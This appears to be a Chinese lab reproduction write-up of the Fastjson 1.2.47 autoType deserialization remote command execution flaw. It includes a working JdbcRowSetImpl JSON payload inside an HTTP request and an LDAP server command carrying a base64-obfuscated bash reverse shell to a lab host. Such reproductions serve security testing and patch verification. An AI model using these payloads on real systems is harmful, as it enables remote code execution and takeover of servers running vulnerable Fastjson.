




# Fastjson 1.2.47 远程命令执行漏洞

> 漏洞说明

fastjson是阿里巴巴的开源json解释器，解析json的格式化字符串，用于将Java Bean序列化json字符串，也可以把json字符串反序列化成Java Bean

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。


> 前提条件


> 利用工具


> 漏洞复现

启动漏洞环境，访问http://192.168.40.77:8090



使用工具打开rmi或ldap服务

```shell
java -cp fastjson_tool.jar fastjson.HLDAPServer2 192.168.40.1 4321 "bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40MC4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}"
```



抓包将payload加入请求数据包

```http
POST http://192.168.40.77:8090/ HTTP/1.1
Host: 192.168.40.77:8090
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=a52d85da4c3b5ca6eaa5adeed3cbf37f
Connection: close
Content-Type: application/json
Content-Length: 187

{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.40.1:4321/Object","autoCommit":true}}

```

开启监听



发送请求包成功反弹shell


